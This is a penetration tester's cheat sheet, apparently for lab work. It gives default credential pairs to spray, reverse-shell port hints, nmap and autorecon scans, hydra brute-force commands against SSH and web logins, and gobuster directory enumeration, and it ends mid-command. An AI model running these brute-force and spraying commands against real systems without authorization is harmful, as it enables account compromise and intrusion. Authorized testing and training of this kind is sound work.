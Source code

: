 
# Reminder
1) Spray default credentials
	1) `admin:admin`, `admin:password`, `root:root`, `root:password`, `root:toor`
	2) Spray name of service or company
	3) Research default creds for the specific service
2) Reverse shell outbound ports to try:
	1) 53, 80, 443, 8080

```bash
--script=vuln # Add this option for NMap to check for vulnerabilities
sudo nmap 192.168.211.242 -sC -sV -oA nmap/initial -p- -vv
sudo nmap 192.168.211.242 -sC -sV -sU -oA nmap/initial --top-ports 100 -vv
sudo nmap -iL targets.txt # read from a targets file
sudo nmap -iL targets.lst -Pn --unprivileged -sC -sV -oA nmap/initial -p- -vv # Scan through Ligolo-ng

sudo autorecon -t TARGET_FILE # press the UP arrow during a scan to view more verbosity
# When autorecon is done, go to the output directory and do the following to browse the results like a website
python3 -m http.server 8081

# SSH brute force
sudo hydra -L users.lst -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 192.168.222.122 ssh -t 4 -I -vv
# Alternative SSH brute force
sudo hydra -L users.txt -P passwords.txt -e nsr -t 10 -I man-vV ssh://192.168.50.100
# Web brute force HTTP-POST-FORM https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
# Swagger web brute force; this will target the "Authorization" header in the HTTP-GET request
# E.g., `Authorization: Basic YWRtaW46cGFzc3dvcmQ=`
# where "YWRtaW46cGFzc3dvcmQ=' base64 decodes to "admin:password"
sudo hydra -L users.lst -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt git.example.com http-get /api/v1/user
# HTTP Basic Auth
sudo hydra -l admin -p password -s 80 -f site.com http-get

# Short wordlist (different from full wordlist, run both)
sudo gobuster dir -u http://192.168.211.244 -w /usr/share/wordlists/dirb/common.txt

# Full wordlist
sudo gobuster dir -u http://192.168.211.244 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Gobuster firsts runs a test to ensure a non-existent page will return a 404. If not, you will get an error like "Error: the server returns a status code that matches the provided options for non existing URLs". Exclude that status-code with "-b"
# "-b" (make sure to still include 404)
sudo gobuster dir -u http://192.168.211.244 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b '404,403'
# Exclude length
sudo gobuster dir -u http://192.168.211.244 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-length <NUMBER>

# "-k" to run against HTTPS websites and ignore cert errors
sudo gobuster dir -u https://192.168.211.244 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

# Patator; DISCLAIMER: cannot get working
# before_urls and --extract is how we get CSRF token
docker run -it --rm -v .:/mnt patator http_fuzz \
```